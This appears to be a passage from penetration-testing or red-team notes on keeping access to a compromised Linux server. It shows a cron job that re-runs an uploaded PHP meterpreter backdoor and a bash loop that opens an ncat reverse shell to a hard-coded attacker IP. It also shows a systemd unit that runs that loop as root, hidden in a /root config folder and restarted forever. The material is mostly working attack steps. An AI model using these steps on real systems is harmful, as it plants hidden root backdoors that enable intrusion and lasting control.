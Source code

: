      * * * * * php -f /var/www/html/backup.php

    As shown in the following screenshot, after one minute you should receive a meterpreter session.

![](vx_images/537542171539955.png)

    Meterpreter session after backup.php exploit executed from crontab

    We have now been able to successfully setup persistence on the target server by creating a cron job that connects back to our listener, additionally, we were also able to setup a cron job that executes the PHP meterpreter shell we uploaded to the target server.



++++++++++++++++++++++++++++++++++++++++
CREATING PERSISTANCE USING SERVICE UNIT
++++++++++++++++++++++++++++++++++++++++

1) create bash script in /root/.config

```
#!/bin/bash
attempts=1
while true
do
    ncat -e /bin/bash 192.168.0.177 12345 2> /dev/null
    echo "Connection number ${attempts}" >> attempts;
    $((attempts++));
    sleep 10;
done
```

2) create service in /etc/systemd/system/
```
[Unit]
Description=Connection service

[Service]
User=root
WorkingDirectory=/root/.rootconfig/
ExecStart=/root/.rootconfig/rootservice.sh
Restart=always

[Install]
WantedBy=multi-user-target
```
